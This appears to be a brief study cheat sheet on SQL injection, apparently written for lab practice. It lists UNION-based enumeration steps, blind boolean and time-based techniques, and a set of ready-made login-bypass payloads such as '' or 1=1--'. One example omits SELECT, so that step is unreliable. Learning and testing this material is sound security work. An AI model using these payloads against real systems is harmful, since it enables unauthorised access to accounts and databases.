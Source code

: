 ## SQLi Trick/Tips

### In-Band
1. Try using an apostrophe or quotation mark in the field first. If you receive an error message about syntax, then you have a possible SQLi vulnerability.
2. Use `1 UNION SELECT 1` to see how many columns are available in the orginal query. Keep incrementing the columns like `1 UNION 1,2`, then `1 UNION SELECT 1,2,3`, etc.
3. Now replace the last column number with a command like `group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`.

### Blind
* *Authentication Bypass* - Try `' OR 1=1;--` or other always true statement.
* *Boolean-based* - Deductive reasoning by generating false values until discovering actual value.
* *Time-based* - Using SLEEP statements like `UNION SELECT SLEEP(5);--`.

### Quick login bypasses
* `admin' --`
* `admin' #`
* `admin'/*`
* `' or 1=1--`
* `' or 1=1#`
* `' or 1=1/*`
* `') or '1'='1--`
* `') or ('1'='1--`
*  Login as different user (SM*)
  `UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`
More at https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
